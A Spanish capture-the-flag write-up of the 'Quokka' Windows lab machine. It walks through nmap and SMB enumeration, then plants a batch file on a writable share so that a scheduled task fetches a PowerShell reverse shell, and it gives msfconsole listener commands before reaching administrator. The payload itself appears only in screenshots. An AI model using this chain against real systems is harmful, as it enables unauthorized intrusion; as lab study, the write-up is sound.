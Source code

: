 # Quokka - The Hacker Labs (Fácil)

Quokka es una máquina Windows de la plataforma de "The Hacker Labs". De dificultad fácil.

## Reconocimiento

Lo primero es hacer ping a la máquina para comprobar si hay conectividad. La ttl es 128 por lo tanto la máquina es Windows.

![alt text](captura_2025-05-02_12-21-03.png)

Hacemos un escaner con nmap para ver que puertos hay abiertos.

`nmap -p- -vvv --open -T5 -Pn -n 10.0.2.16`

![alt text](captura_2025-05-02_12-22-50.png)

## Enumeración

Hacemos un escaner con nmap para analizar que servicios corren en los puertos.

`nmap -p 80,135,139,445,5985,47001,49664,49665,49667,49669,49670,49671,49681 -sVC -Pn -n 10.0.2.16 -oN scan`

Y vemos que principalmente corre un servicio HTTP y un SMB, que podemos identificar por los puertos 139 y 445.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-02 12:24 CEST
Nmap scan report for 10.0.2.16
Host is up (0.0040s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Portfolio y Noticias Tech de Quokka 
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Datacenter 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -39m58s, deviation: 1h09m16s, median: 1s
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: WIN-VRU3GG3DPLJ
|   NetBIOS computer name: WIN-VRU3GG3DPLJ\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-02T12:25:56+02:00
|_nbstat: NetBIOS name: WIN-VRU3GG3DPLJ, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:f1:48:2a (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2025-05-02T10:25:56
|_  start_date: 2025-05-02T10:17:14
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.37 seconds
```

También he ejecutado `whatweb` para ver si el servicio http me puede dar mas información pero no encuentro nada mas.

![alt text](captura_2025-05-02_12-27-22.png)

Si entramos en la página y la inspeccionamos un poco podremos vemos que es una página estática así que por aqui no hay mucho que ver.

![alt text](captura_2025-05-02_12-28-28.png)

Luego ejecuto el comando `enum4linux` para ver si me da información sobre el SMB, pero al no proporcionarle ningún usuario no me da información.

![alt text](captura_2025-05-02_12-31-11.png)

Viendo la parte derecha de la página podemos ver varios nombres.

![alt text](captura_2025-05-02_12-31-34.png)

Así que probamos a ejecutar `enum4linux` con el usuario daniel, y ahora si obtenemos mas información.

`enum4linux -u daniel -a 10.0.2.16`

Tanto con `enum4linux` como con `smbmap` podemos ver una carpeta compartida con permisos tanto de lectura como de escritura.

![alt text](captura_2025-05-02_12-32-46.png)

![alt text](captura_2025-05-02_12-33-11.png)

Entramos en la carpeta compartida "Compartido" con `smbclient` y descargamos su contenido.

![alt text](captura_2025-05-02_12-33-56.png)

```
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

![alt text](captura_2025-05-02_12-38-16.png)

![alt text](captura_2025-05-02_12-38-29.png)

Después de mirar varios archivos encontramos este, el cual se ejecuta cada minuto y lo que hace es descargar y ejecutar un archivo .ps1 con powershell.

![alt text](captura_2025-05-02_12-49-28.png)

## Explotación

Teniendo en cuenta que esta carpeta compartida tiene permisos de escritura podemos escribir un archivo `mantenimiento.bat` que descargue un archivo .ps1 que a su vez ejecute una shell reversa.

`nvim mantenimiento.bat`

![alt text](captura_2025-05-02_12-47-13.png)

Desde esta pagina podemos copiar una reverse shell que se ejecute con powershell:
https://www.revshells.com/

Creamos el archivo shell.ps1 y pegamos el código.

`nvim shell.ps1`

![alt text](captura_2025-05-02_12-53-53.png)

Creo un servidor http con python.

![alt text](captura_2025-05-02_13-00-17.png)

Pongo el puerto 4444 en escucha con `msfconsole` para así posteriormente poder mejorar la shell a meterpreter (spoiler: no pude hacerlo).

```
sudo msfconsole
use multi/handler
set LHOST 10.0.2.11
set payload windows/shell/reverse_tcp
run
```

Subo el archivo `mantenimiento.bat` por SMB.

![alt text](captura_2025-05-02_13-17-55.png)

Espero a obtener la shell.

![alt text](captura_2025-05-02_13-21-45.png)

![alt text](captura_2025-05-02_13-21-56.png)

## Post-Explotación

Aqui intento mejorar la shell a meterpreter sin exito.

![alt text](captura_2025-05-02_13-24-23.png)

Abro la shell de nuevo y veo que soy el administrador.

`sessions 2`
![alt text](captura_2025-05-02_13-25-19.png)

Aquí está la flag del admin admin.txt.

![alt text](captura_2025-05-02_13-26-02.png)

Aquí está la flag de usuario user.txt.

![alt text](captura_2025-05-02_13-27-30.png)